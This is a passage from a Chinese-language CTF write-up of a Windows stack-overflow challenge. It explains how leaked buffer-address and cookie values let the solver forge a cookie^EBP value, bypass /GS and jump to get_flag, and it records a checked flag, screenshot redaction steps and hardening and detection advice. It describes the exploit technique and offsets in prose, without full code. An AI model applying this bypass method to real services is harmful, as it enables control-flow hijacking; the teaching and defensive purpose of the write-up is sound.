| 2 | 5475 | `__security_init_cookie` 如何随机化 `0xBB40E64E`、失败回退、cookie 固定常量的危害 | 方向正确，但把随机化来源写成 `GetSystemTime`；真实实现是 `GetSystemTimeAsFileTime` + `GetCurrentProcessId` + `GetCurrentThreadId` + `GetTickCount` + `QueryPerformanceCounter` 组合后哈希。**该回答在 1024 token 处被截断**，第二问（cookie 固定常量如何被利用）未答完 | — |
| 3 | 5478 | `/GS` 绕过 payload 布局与「为什么回填 `cookie ^ EBP` 而不是直接填 cookie」 | **模型以「涉及攻击技术」为由拒答**，只给了概念性描述；本题 payload 布局由原始记录第 2.5 节自行推导并经靶机实测（步骤 8），不依赖该回答 | — |
| 4 | 5480 | 加固清单（`/GS`、`/SafeSEH`、`/DYNAMICBASE`、`/NXCOMPAT`、CFG）与崩溃转储 / 事件日志 / EDR 排查 | 四种加固的作用描述基本正确；存两处明显错误：① 把 `/GS-` 说成「允许手动管理栈 cookie」的**加固手段**——`/GS-` 实际是**关闭** `/GS`；② 称「本题开启了 ASLR」，与实测不符（本题 `DllCharacteristics` 无 `DYNAMICBASE`，且缓冲区地址每次连接恒定 `0x0019FE24`） | — |
| 5 | 5482 | 给定反汇编求「cookie 全局地址 / 缓冲区相对 EBP 偏移 / 各字段偏移」 | 3 问中 **2 对 1 错**：(1) `0x41d040` ✔；(3) 256 ✔；(2) **答成 `-4`**（把 `mov [ebp-4],eax` 的写回目标当成了缓冲区），并臆测「返回地址在局部变量之后 4 字节」。正确答案：缓冲区 = `EBP-0x104`，cookie = 256、saved EBP = 260、返回地址 = 264（步骤 3） | 07（该会话在历史列表中被选中） |

> 口径说明：以上「准确性核对」是解题方依据反汇编与靶机实测给出的判读，写入记录以保持对教学模型输出的如实评价；**第 1/2/4/5 问的结论均不作为本题依据，第 3 问为拒答**。


![教学问答平台真实页面截图：第 1 问（`/GS` 完整原理）的完整问答内容，可见其中的 `xor DWORD PTR [ebp-4],0x12345678` 与 `je` 等错误示例；右上角账号已脱敏](screenshots/08-AI问答-GS机制问答全文.png)

### 13. 截图真实性与脱敏说明

`6-1/screenshots/` 共 **14 张 PNG，无其他文件**（渲染源 HTML 放在 `.local/process/6-1-scripts/render/`，不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | banner 两处泄漏 `Buffer @ 0019FE24` / `Cookie : …` + EBP、stored 推导 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02` | 失败对照一：不回填 cookie → `/GS` 拦截、`Hello` 后连接即断 | 同上 |
| `02b` | 失败对照二/三/四：偏移 252、目标地址写到 260、只发 260 字节 | 同上 |
| `03` | `md5`/`file`/`objdump -p`：`DllCharacteristics 0x8000`、`Security Cookie 0x41D040`、导出表仅 `get_flag`、导入 `getflag.dll!GetFlag` | 同上 |
| `03b` | prologue 反汇编 + 偏移推导 256 / 260 / 264 | 同上 |
| `03c` | epilogue 反汇编 + `0x40116a` 的 `cmp`/`jne`/`ret` | 同上 |
| `03d` | `.data` 四条格式串与 `0x41d040 = 0xBB40E64E` 初值 | 同上 |
| `04` | 正式 payload 与 `[calc]` 行、`[+] Token (valid 10 min, one-time)` | 同上 |
| `05` | `curl -i ".../flag?token=…"` → `HTTP/1.1 200 OK` + `vmc{…}` | 同上 |
| `05b` | token 重放 403 `token already used`、坏格式 403、缺参 400 | 同上 |
| `06a` | VMC 作答页：5 题全部「作答正确」，flag 框内可见最终 flag | **真实页面截图**（无头 Chrome + playwright-core 驱动系统 Chrome，登录态） |
| `06b` | VMC「我的虚拟机」：`C031-G1-F`（`s-148777`）`running`、端口映射明细、过期时间 | **真实页面截图**（同上） |
| `07` | 教学问答历史列表（按 `__security_cookie` 检索，命中 4 条）与第 5 问问答 | **真实页面截图** |
| `08` | 教学问答第 1 问（`/GS` 完整原理）完整问答 | **真实页面截图** |

**为什么终端类是渲染稿**：pwn 靶机 `172.17.174.74:9999` 是**裸 TCP 服务、不是 HTTP**，无法像网页那样实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`05b` 按 shared-ops 的做法，把**真实命令行 + 原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「真实命令回显的渲染稿（非终端实拍）」**，未冒充终端实拍。渲染前日志/JSON 中的 `currentUser`（账号、姓名、学号、`lastIP`）整段剔除。

**脱敏范围（脚本 `.local/process/6-1-scripts/mask_accounts.py`，`--check` 干跑 / `--apply` 写入）**：

| 图 | 目标矩形（device px） | 填充背景色 | 标注 |
| --- | --- | --- | --- |
| `06a`（VMC 顶栏账号昵称） | `(2380, 58) - (2545, 142)` | `rgb(114,177,239)`（实测顶栏底色） | 写「账号已脱敏」，白色 |
| `06b`（VMC 顶栏账号昵称） | 原框 `(2380, 58) - (2545, 142)` + **补涂 `(2305, 52) - (2395, 122)`** | 均 `rgb(114,177,239)`（实测顶栏底色） | 原「账号已脱敏」标注保留不动 |
| `07`、`08`（问答页右上账号胶囊） | `(1812, 42) - (2172, 110)` | `rgb(255,252,247)`（实测 header 底色） | 写「账号已脱敏」，`rgb(140,120,90)` |

脚本只重绘上述矩形、不动页面其余内容，可追溯、可回退（重新运行 `vmc_shots*.mjs` / `qa_shots.mjs` 从平台重截即可）；判据为「矩形内与背景色差异明显的像素数（ink）涂白后明显下降」。

> **`06b` 脱敏的补涂记录（已完成，可追溯）**：首轮 `mask_accounts.py` 的 VMC 框 `(2380, 58) - (2545, 142)` 在 `06b` 上**起点偏右**——该图顶栏**账号昵称**的像素簇位于 **x≈2319–2379**，恰好落在框左界之外，因此首轮截图中该昵称仍然可见；同一矩形在 `06a` 中恰好覆盖了昵称位置（两图顶栏布局相差约 30 px），`06a` 首轮即干净。
> 补涂处理范围：**只涂 `06b` 的 `(2305, 52) - (2395, 122)` 一个矩形**（覆盖昵称本体，右侧原有的「账号已脱敏」标注未动），填充实测顶栏背景色 `rgb(114,177,239)`；脚本 `.local/process/6-1-scripts/mask_vmc_06b_lead.py`（`--check` 干跑 / `--apply` 写入），ink 判据 **`1165 → 0`**；补涂后复验：该矩形内与背景色存在差异的像素数为 **0**，裁剪目视确认顶栏只剩「账号已脱敏」。**`06a` / `06b` 均已达到「顶栏账号已脱敏」，`06b` 的图注已同步更新。**

### 14. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.174.74:9999` | **无文件落地** | 全部交互都是通过 socket 发送一次 payload 触发 `get_flag()`，未上传文件、未写磁盘、未留后门；命中分支最终 `ExitProcess(0)`，崩溃分支由服务端回收 |
| 一次性 token | 共取得 **1 枚**并已用于兑换（兑换后立即失效），另有 1 次重放对照返回 403 `token already used` | 该枚 token 已被消费，靶机侧与兑换服务侧均无残留有效凭证 |
| 本机 | `6-1/screenshots/`（14 张 PNG，无其它文件）、`.local/process/6-1-scripts/`（`pwn_gs.py`、`mask_accounts.py`、`make_terminal_pages.py`、`vmc_*.mjs`/`qa_shots.mjs`、`files/challenge.exe`、`render/` 10 个渲染源 HTML、`logs/` 原始日志与 SSE）、`.local/process/6-1-{ctf-process.md,qa-transcript.json,answers-reasoning.md}` | `.local/` 与 `/tmp/shot/` 均不入库 |
| 实例 | envID `1197` 交付时仍在 `Running`（`C031-G1-F`，过期时间 2026-10-13 21:40:35），未销毁 | 如需善后可在平台停止该实例 |

## Flag

```text
vmc{QTq6FSANCVjjVgYhRJ9x0PjpRYgOWi5o}
```

该 flag 由唯一一枚一次性 token 兑换所得（`HTTP/1.1 200`，`Content-Length: 38` = 37 字符 flag + 结尾换行），与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 9043）判定为正确的提交值三者逐字一致。

## 总结与心得

### 漏洞原理

1. **根因是「无长度检查的读入 + 可控的返回地址」**：受保护函数用 `0x4063f5`（`gets` 语义）往 `[EBP-0x104]` 的 260 字节栈缓冲区写数据，长度完全由客户端决定，随后还把输入用 `%s` 回显出来（CWE-121，栈缓冲区溢出）。
2. **`/GS` 的真实机制**：程序启动时由 `__security_init_cookie` 生成一个全局随机值 `__security_cookie`（文件初值 `0xBB40E64E` 只是占位，全镜像只有 `0x4017c9` 一处写入）；每个受保护函数的 prologue 把它与本帧 EBP **异或**后存入 `[EBP-4]`，epilogue 在 `ret` 之前取回、再异或 EBP 还原，并 `call 0x40116a __security_check_cookie` 与全局值比较；不等则跳 `0x4013f4 __report_gsfailure` 终止进程，**根本走不到 `ret`**。这里的异或 EBP 是刻意设计：攻击者即使改写了 cookie 槽，不知道本帧 EBP 也无法伪造（步骤 3、4、6）。
3. **本题的致命点在「程序自己把两样东西都泄漏了」**：`printf("Buffer @ %p\n")` 给出本帧缓冲区地址，`printf("Cookie : %08X\n")` 给出全局 cookie 当前值。于是 `EBP = bufaddr + 0x104` 可算、`stored = cookie ^ EBP` 可算——`/GS` 依赖的「cookie 不可预测」与「EBP 不可知」两个前提被同时打掉，回填（refill）就成了纯粹的代数题。**这也是「有栈保护 ≠ 安全」的典型样本：保护机制没错，错在把保护的秘密打印给了攻击者。**
4. **`DllCharacteristics = 0x8000` 意味着本题的考点不是 DEP**：没有 `NX_COMPAT`，栈可执行与否不是本关卡的障碍；真正拦住直接覆盖返回地址的是 `/GS`（失败对照一）。同时没有 `DYNAMICBASE`、且实测每次连接缓冲区地址恒为 `0x0019FE24`，所以所有地址都是确定的——`get_flag = 0x401000` 可以直接写死（对照：`C026` 系列的 5-1/5-2 才是 DEP 题，那两题的考点是「DEP 只拦数据页执行、不拦跳到已有代码」）。
5. **「拿到凭证」与「拿到 flag」是两段权限**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在校验 token 的**格式**与**使用状态**后才给出。这种分层让「控制靶机进程」不等于「直接读 flag」，且每次利用都会在服务端留下使用记录。

### 做题方法

- **先钉死「保护开关 + 偏移 + 泄漏源」，再写 payload**：`objdump -p` 看 `DllCharacteristics` 与 `Load configuration` 的 Security Cookie 地址，`objdump -D` 按**地址范围**看 prologue/epilogue，自己算出「缓冲区 260 + cookie 槽 4 = 256 / saved EBP 260 / 返回地址 264」。本题后续所有动作都建立在这三个数字上。
- **把保护机制的公式反着用**：prologue 做的是 `[EBP-4] = cookie ^ EBP`；要让它通过校验，payload 里就放 `cookie ^ EBP`。逆运算的两个输入恰好都在 banner 里，这类题「看到泄漏就先想清楚它能反推什么」。
- **用对照实验把因果钉住，并区分「防护拦住」与「利用失败」**：不回填 cookie（`/GS` 拦截）→ 偏移错 4 字节（`/GS` 拦截）→ 目标地址写错槽（`/GS` 通过但崩溃）→ 长度不够（`/GS` 通过但崩溃）→ 四段齐全（拿到 token）。前两条证明 `/GS` 有效，后两条证明偏移必须精确，缺任何一条结论都不完整。
- **没有 pwntools 也能完整验证**：Python 标准库 `socket` + `struct.pack("<I", …)` 足以收发 payload 并解析 banner 里的两处泄漏；本题还额外演示了「用正则从 banner 抓两个十六进制数、当场算出回填值」的自动化写法。
- **平台提交有两个格式约束**：`answers` 字段必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3，flag 放第 3 格）；判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate`/`isCorrect` 不是判分依据。
- **对教学模型的回答保持复核**：本题 5 问里有 1 问被拒答、4 问含明确错误（示例汇编写成 `xor DWORD PTR [ebp-4],…` + `je`、随机化来源写成 `GetSystemTime`、把 `/GS-` 说成加固手段、把缓冲区偏移答成 `-4`），其中第 5 问的「答错的那一问」恰好是本题的核心偏移。教学问答适合梳理思路，**结论必须回到反汇编与靶机实测上验证**。
- **注意工具输出里的符号陷阱**：该 PE 只有一个函数符号，`objdump` 会把 `0x401020` 起的代码全标成 `<get_flag+0xNNN>`；按地址阅读、别被符号名带偏。

### 修复建议

- **代码级：去掉无界读取**。把长度不受限的读入换成带长度上限的实现（`fgets(buf, sizeof buf, stdin)` 或「读入 + 长度校验 + 截断」），并排查所有把外部数据写进定长栈缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。
- **代码级（本题真正的要害）：不要向客户端泄漏调试信息**。`Buffer @ %p` 与 `Cookie : %08X` 这两条 `printf` 直接摧毁了 `/GS` 的两个前提；同理，任何打印栈/堆地址、模块基址、canary/cookie、指针值的调试输出，都应在发布版本中移除或改成不敏感日志（服务端、经鉴权、不含原始值）。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——本题**已开**，但被信息泄漏绕过；这说明加固要成套，单靠一项不够；
  - `/DYNAMICBASE`（ASLR）+ `/HIGHENTROPYVA`——本题**没开**，实测栈地址恒定，补上后静态地址不再可用，攻击至少要先做并持续维持信息泄漏；
  - `/NXCOMPAT`（DEP）——本题**没开**，补上后「注入 shellcode 再跳」被堵死；
  - `/SAFESEH`（链接器选项，SafeSEH）与 `/guard:cf`（CFG，控制流完整性）——约束异常处理链与间接跳转目标，提高「覆盖返回地址/函数指针」的难度。**正确写法是 `cl /GS`、`/guard:cf`，`/GS-` 是关闭 `/GS`，不要写反。**
- **不要把敏感能力做成「易达目标」**：`get_flag` 是导出函数、地址可直接写死（`0x401000`），命中即可打印一次性凭证。凭证下发应校验调用来源与身份，敏感逻辑应放在独立进程/服务端并做权限校验，而不是仅靠一个可被跳转的本地函数。
- **运行期与架构层**：开启系统级 DEP/ASLR 与 CFG；服务以最小权限账户、低完整性级别运行；只对必要的来源开放端口并做流量审计。
- **把「拿不到 flag」当作最后一道边界**：本题兑换服务做了 token 格式校验、10 分钟有效期与一次性使用检查，是值得借鉴的设计——高价值资产与暴露面分层，凭据短期化、单次化，并在服务端记录使用情况以便事后审计。
- **检测与应急排查要点**（对应教学问答第 4 组）：服务进程异常退出且异常码为 `0xC0000005`（访问违例）、进程内出现 `__report_gsfailure` 相关的快速失败痕迹（`/GS` 拦截成功时可见）、崩溃转储中返回地址指向进程内**未被正常调用**的函数（如本题的 `get_flag`）、异常输出（如 `Hello, <超长字符串>!`、`Buffer @`/`Cookie :` 之类的调试泄漏被大量请求触发）在短时间内密集出现、一次性凭证在极短时间内被兑换等，都是此类控制流劫持的典型痕迹。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯、核对 EDR 遥测中的线程起始地址与调用栈、排查同主机同类服务的版本与补丁；修复则回到「有界读取 + 移除信息泄漏 + `/GS` + `/DYNAMICBASE` + `/NXCOMPAT` + 最小权限」这条主线。

原始过程记录：`.local/process/6-1-ctf-process.md`；教学问答原文：`.local/process/6-1-qa-transcript.json`；选择题判定预登记：`.local/process/6-1-answers-reasoning.md`；复现脚本与全部证据日志：`.local/process/6-1-scripts/`（`pwn_gs.py`：`banner` / `exploit` 两个正常用例 + `nocookie` / `wrongoff` / `wrongoff2` / `short` 四条失败对照、`files/challenge.exe`、`render/` 渲染源、`logs/` 原始输出与问答 SSE）。
